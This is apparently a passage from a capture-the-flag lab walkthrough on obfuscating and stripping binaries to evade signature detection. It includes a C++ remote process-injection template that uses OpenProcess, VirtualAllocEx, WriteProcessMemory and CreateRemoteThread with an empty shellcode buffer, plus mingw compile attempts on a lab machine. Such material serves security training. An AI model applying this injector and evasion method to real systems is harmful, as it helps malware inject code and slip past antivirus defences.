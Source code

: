 If we need to remove symbols from a pre-compiled image, we can use the command-line utility: strip.

The aforementioned white paper: Layered Obfuscation Taxonomy, summarizes these practices well under the code-element layer’s stripping redundant symbols method.

Below is an example of using strip to remove the symbols from a binary compiled in gcc with debugging enabled.


Several other properties should be considered before actively using a tool, such as entropy or hash. These concepts are covered in task 5 of the Signature Evasion room.

Using the knowledge you have accrued throughout this task, remove any meaningful identifiers or debug information from the C++ source code below using the AttackBox or your own virtual machine.

Once adequately obfuscated and stripped compile the source code using MingW32-G++ and submit it to the webserver at http://10.10.92.241/.

Note: the file name must be challenge-8.exe to receive the flag.

```
#include "windows.h"
#include <iostream>
#include <string>
using namespace std;

int main(int argc, char* argv[])
{
	unsigned char shellcode[] = "";

	HANDLE processHandle;
	HANDLE remoteThread;
	PVOID remoteBuffer;
	string leaked = "This was leaked in the strings";

	processHandle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, DWORD(atoi(argv[1])));
	cout << "Handle obtained for" << processHandle;
	remoteBuffer = VirtualAllocEx(processHandle, NULL, sizeof shellcode, (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);
	cout << "Buffer Created";
	WriteProcessMemory(processHandle, remoteBuffer, shellcode, sizeof shellcode, NULL);
	cout << "Process written with buffer" << remoteBuffer;
	remoteThread = CreateRemoteThread(processHandle, NULL, 0, (LPTHREAD_START_ROUTINE)remoteBuffer, NULL, 0, NULL);
	CloseHandle(processHandle);
	cout << "Closing handle" << processHandle;
	cout << leaked;

	return 0;
} 
```

 What flag is found after uploading a properly obfuscated snippet? 
 To build the source, use x86_64-w64-mingw32-g++ challenge-8.cpp -o challenge-8.exe

```
┌──(kali㉿kali)-[~/obfus]
└─$ nano challenge-8.cpp
                                                                                           
┌──(kali㉿kali)-[~/obfus]
└─$ x86_64-w64-mingw32-g++ challenge-8.cpp -o challenge-8.exe
x86_64-w64-mingw32-g++: command not found
                                                                                           
┌──(kali㉿kali)-[~/obfus]
└─$ i686-w64-mingw32-g++ challenge-8.cpp -o challenge-8.exe
i686-w64-mingw32-g++: command not found
                                                                                           
┌──(kali㉿kali)-[~/obfus]
└─$ apt install g++-mingw-w64-i686                      
```